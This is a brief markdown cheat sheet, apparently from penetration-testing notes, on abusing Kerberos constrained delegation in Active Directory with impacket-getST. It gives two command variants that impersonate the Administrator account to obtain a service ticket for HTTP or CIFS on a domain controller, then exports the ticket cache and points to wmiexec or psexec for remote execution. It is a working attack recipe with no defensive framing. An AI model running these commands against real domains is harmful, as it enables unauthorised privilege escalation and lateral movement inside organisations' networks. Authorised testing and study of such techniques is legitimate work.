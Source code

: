 # Impacket-getST

## Use this impacket module to perform a Constrained Delegation attack

#### 1) 

    impacket-getST -spn HTTP/DC.DOMAIN.COM -impersonate administrator -dc-ip DC_IP -k -no-pass DOMAIN.COM/USERNAME

### OR

    impacket-getST -spn 'cifs/dc01.DOMAIN.COM' -impersonate Administrator -dc-ip DC_IP -k 'DOMAIN.COM/USERNAME:PASSWORD'

#### 2) 

    export KRB5CCNAME=administrator.ccache

#### 3) Use wmiexec or psexec
